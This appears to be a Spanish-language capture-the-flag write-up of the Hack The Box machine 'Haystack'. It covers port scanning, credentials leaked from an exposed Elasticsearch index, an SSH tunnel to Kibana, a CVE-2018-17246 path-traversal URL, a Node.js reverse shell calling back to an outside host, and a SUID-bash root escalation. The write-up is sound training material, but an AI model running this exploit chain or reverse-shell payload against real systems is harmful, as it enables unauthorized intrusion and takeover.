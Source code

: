 # Máquina Haystack

### Intrusión

Comenzamos con nuestros comandos de nmap

```
sudo nmap -p- --open -sS -n -Pn --min-rate 5000 -vvv 10.10.10.115 -oG allPorts
```
```
sudo nmap -p22,80,9200 -sCV 10.10.10.115 -oN Targeted
```
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-21 23:39 CEST
Nmap scan report for 10.10.10.115
Host is up (0.042s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2a8de2928b14b63fe42f3a4743238b2b (RSA)
|   256 e75a3a978e8e728769a30dd100bc1f09 (ECDSA)
|_  256 01d259b2660a9749205f1c84eb81ed95 (ED25519)
80/tcp   open  http    nginx 1.12.2
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.12.2
9200/tcp open  http    nginx 1.12.2
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
| http-methods: 
|_  Potentially risky methods: DELETE

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
```

mv ~/Downloads/Descargas/needle.jpg .
ExifTool Version Number         : 12.16
File Name                       : needle.jpg
Directory                       : .
File Size                       : 179 KiB
File Modification Date/Time     : 2023:04:21 23:42:24+02:00
File Access Date/Time           : 2023:04:21 23:42:24+02:00
File Inode Change Date/Time     : 2023:04:21 23:42:38+02:00
File Permissions                : rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Exif Byte Order                 : Big-endian (Motorola, MM)
X Resolution                    : 96
Y Resolution                    : 96
Resolution Unit                 : inches
Software                        : paint.net 4.1.1
User Comment                    : CREATOR: gd-jpeg v1.0 (using IJG JPEG v80), quality = 90.
Image Width                     : 1200
Image Height                    : 803
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 1200x803
Megapixels                      : 0.964

strings -n 10 needle.jpg

bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==
echo 'bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==' | base64 -d
"la aguja en el pajar es "clave"%"

Nada wfuzz tipico

wfuzz -c -t 200 --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.115:9200/FUZZ

000000687:   200        0 L      1 W        338 Ch      "quotes"
000003642:   200        0 L      1 W        1010 Ch     "bank"
000007004:   200        0 L      1 W        2 Ch        "*checkout*"                                                                                      
000016413:   200        0 L      1 W        4136 Ch     "*"                                                                                               
000015463:   200        0 L      1 W        2 Ch        "*docroot*"

http://10.10.10.115:9200/quotes/_search?pretty=true&size=1000

curl 'http://10.10.10.115:9200/quotes/_search?pretty=true&size=1000' > haystack.txt

cat haystack.txt| grep "clave"

"quote" : "Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="
"quote" : "Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "
❯ echo 'cGFzczogc3BhbmlzaC5pcy5rZXk=' | base64 -d
pass: spanish.is.key%                                                                                                                                        ❯ echo 'dXNlcjogc2VjdXJpdHkg' |base64 -d
user: security %

ssh connect

sudo -l nothing

[security@haystack home]$ cat /proc/net/tcp | grep '00000000:0000 0A'
   0: 00000000:0050 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 38071 1 ffff93b16e2407c0 100 0 0 10 0                     
   1: 00000000:23F0 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 38070 1 ffff93b16e240f80 100 0 0 10 0                     
   2: 00000000:0016 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 37910 1 ffff93b16e240000 100 0 0 10 0                     
   3: 0100007F:15E1 00000000:0000 0A 00000000:00000000 00:00000000 00000000   994        0 260693 1 ffff93b16e2464c0 100 0 0 10 0  
0.0.0.0:80
0.0.0.0:9200
0.0.0.0:22
127.0.0.1:5601

ssh> -L 5601:localhost:5601


https://github.com/mpgn/CVE-2018-17246

http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../tmp/kraken.js

[security@haystack tmp]$ cat kraken.js 
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.10.14.12", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
[security@haystack tmp]$ ls
hsperfdata_root  systemd-private-0e42240d40d449479f1827df5cdc85f1-chronyd.service-uWVFDs	vmware-root
jruby-6234	systemd-private-0e42240d40d449479f1827df5cdc85f1-elasticsearch.service-ux1hQZ	vmware-root_6238-700485133
kraken.js	systemd-private-0e42240d40d449479f1827df5cdc85f1-nginx.service-McmzxV
[security@haystack tmp]$ cat kraken.js 
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.10.14.12", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();



bash-4.2$ ls -la /bin/bash
-rwsr-xr-x. 1 root root 964608 oct 30  2018 /bin/bash

bash -p
whoami
root
